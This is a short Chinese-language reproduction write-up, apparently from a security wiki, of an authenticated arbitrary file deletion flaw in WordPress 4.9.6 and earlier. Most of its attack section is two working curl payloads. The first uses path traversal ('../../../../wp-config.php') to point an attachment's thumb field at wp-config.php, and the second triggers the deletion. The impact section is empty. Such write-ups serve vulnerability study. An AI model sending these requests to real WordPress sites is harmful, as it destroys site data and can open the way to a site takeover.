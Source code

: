 ```yaml
---
title: Wordpress <= 4.9.6 任意文件删除漏洞
id: zhfly3261
---
```


# Wordpress <= 4.9.6 任意文件删除漏洞

## 一、漏洞简介

利用条件L：需要进入后台

## 二、漏洞影响

## 三、复现过程

### 添加新媒体

访问http://0-sec.org/wp-admin/upload.php，然后上传图片。

![image](../img/310d024b0359336a0672d29535ea3914.png)

### 将$ meta ['thumb']设置为我们要删除的文件

#### 单击我们在中上传的图像Step 2，并记住图像的ID。

![image](../img/e1d27305d7675aa560ab9a899eaccb10.png)

#### 访问http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce在页面源中查找

![image](../img/7cf13de74d450438c06a74e11b87cb25.png)

#### 发送有效载荷：

```
curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php' 
```

![image](../img/f8833bcb7b0bcc3a333510c9bfc252da.png)

### 发动攻击

#### 在页面源码中查找 _wpnonce

![image](../img/b15ae46cdd5996961cb8b9f185e86107.png)

#### 发送有效载荷

```
curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***' 
```

![image](../img/1f7a8beb95ed396dbaa960f4c13abd6a.png)

#### 刷新页面

![image](../img/5f5aa846c7590defa4cccac0c4e41089.png)